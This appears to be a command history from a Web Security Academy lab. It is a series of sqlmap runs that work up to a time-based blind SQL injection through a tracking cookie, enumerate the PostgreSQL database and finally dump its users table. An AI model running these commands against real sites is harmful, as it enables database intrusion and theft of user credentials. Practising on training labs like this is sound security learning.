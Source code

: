 
sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3

 sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --tech=T

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --tech=T --dbms=postgresql -vvvvvvvv

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --tech=T --dbms=postgresql

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --tech=T --dbms=postgresql --schema --threadas=20

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --tech=T --dbms=postgresql --schema --threads=20

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --tech=T --dbms=postgresql --schema --threads=10

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --tech=T --dbms=postgresql --schema --threads=1

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --fresh-queries

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --fresh-queries --clear-session

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --fresh-queries --help | grep session

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --flush-session

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --help

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --current-user

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --current-user --time-sec=0.25

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --current-user --time-sec=1

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --current-user --time-sec=1

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --current-db --time-sec=1

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql -D public --tables --time-sec=1

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql --tables --time-sec=1

sqlmap -u "https://0ab5001f0306b3d387c47ffa00600021.web-security-academy.net/" --cookie='TrackingId=8z1Q1CRC1UAzbOA5; session=noqLmyJEZw4i8Qxq3fz0SQJxw46ybQwF' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=5 --risk=3 --dbms=postgresql -D public -T users --dump --time-sec=1